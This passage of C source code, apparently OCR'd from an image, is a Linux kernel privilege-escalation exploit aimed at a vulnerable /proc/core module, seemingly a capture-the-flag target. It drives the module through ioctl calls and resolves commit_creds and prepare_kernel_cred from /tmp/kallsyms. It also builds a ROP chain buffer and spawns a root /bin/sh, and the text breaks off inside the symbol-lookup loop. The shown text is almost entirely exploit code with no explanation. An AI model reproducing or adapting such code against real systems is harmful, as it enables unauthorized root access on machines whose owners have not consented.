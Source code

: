 void shell() {
    if (!getuid()) {
        system("/bin/sh");
    } else {
        puts("\033[31m\033[1m[-] Exploit failed.\033[0m");
        exit(0);
    }
}

void core_read(int fd, char* buf) {
    ioctl(fd, 0x6677889B, buf);
}

void core_set_offset(int fd, size_t offset) {
    ioctl(fd, 0x6677889C, offset);
}

void core_copy(int fd, size_t nbytes) {
    ioctl(fd, 0x6677889A, nbytes);
}


int main() {
    FILE *syms;
    int fd;
    size_t offset;

    size_t addr;
    size_t canary;
    char type[256], name[256];

    size_t rop[0x100], i;

    puts("\033[34m\033[1m[*] Start to exploit...\033[0m");
    save_status();

    fd = open("/proc/core", O_RDWR);
    if (fd < 0) {
        puts("\033[31m\033[1m[-] Open /proc/core failed.\033[0m");
        exit(0);
    }

    syms = fopen("/tmp/kallsyms", "r");
    if (syms == NULL) {
        puts("\033[31m\033[1m[-] Open /tmp/kallsyms failed.\033[0m");
        exit(0);
    }

    while (fscanf(syms, "%lx %s %s", &addr, type, name)) {
        if (prepare_kernel_cred && commit_creds) {
            break;
        }

        if (!prepare_kernel_cred && strcmp(name, "prepare_kernel_cred") == 0) {
            prepare_kernel_cred = addr;
            printf("\033[33m\033[1m[√] Found prepare_kernel_cred: %lx\033[0m\n", prepare_kernel_cred);
        }
